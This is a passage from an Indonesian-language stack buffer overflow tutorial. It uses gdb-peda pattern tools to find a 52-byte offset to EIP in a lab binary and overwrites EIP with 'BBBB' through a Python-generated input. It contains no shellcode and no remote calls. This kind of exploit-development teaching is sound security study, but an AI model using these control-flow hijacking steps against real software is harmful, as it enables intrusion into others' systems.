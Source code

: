 ```bash
ESP: 0xffffd650 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EIP: 0x41474141 ('AAGA')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41474141
[------------------------------------stack-------------------------------------]
0000| 0xffffd650 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0004| 0xffffd654 ("2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0008| 0xffffd658 ("AAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0012| 0xffffd65c ("A3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0016| 0xffffd660 ("IAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0020| 0xffffd664 ("AA4AAJAAfAA5AAKAAgAA6AAL")
0024| 0xffffd668 ("AJAAfAA5AAKAAgAA6AAL")
0028| 0xffffd66c ("fAA5AAKAAgAA6AAL")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41474141 in ?? ()
gdb-peda$
```

mencari posisi byte di EBP pada pola yang dibuat menggunakan pattern create saat crash dengan perintah pattern offset

```bash
gdb-peda$ pattern offset 0x41474141
1095188801 found at offset: 52
```
secara ilustrasi seperti gambar berikut
pola ini diserupakan AAAA untuk 52 bytes
sehingga kita bisa merubah isi dari EIP dengan menuliskan 4 byte setelah 52

![[memory-layout-1.png]]

kemudian coba untuk mengisi EIP dengan BBBB atau 0x42424242 dalam hexa
buat payload di terminal dengan
```bash
$python -c "print b'A'*52+b'BBBB'"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```

gunakan sebagai parameter pada aplikasi

```bash
$gdb -q vuln32
Reading symbols from vuln32...done.
gdb-peda$ run
Starting program: /root/You_Tube/Stack_Buffer_Overflow/1/vuln32 
give me your input :)

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EAX: 0xffffd618 ('A' <repeats 52 times>, "BBBB")
EBX: 0x41414141 ('AAAA')
ECX: 0xf7fb55c0 --> 0xfbad2288 
EDX: 0xf7fb689c --> 0x0 
ESI: 0xf7fb5000 --> 0x1d9d6c 
EDI: 0xf7fb5000 --> 0x1d9d6c 
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd650 --> 0xf7fb5000 --> 0x1d9d6c 
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
```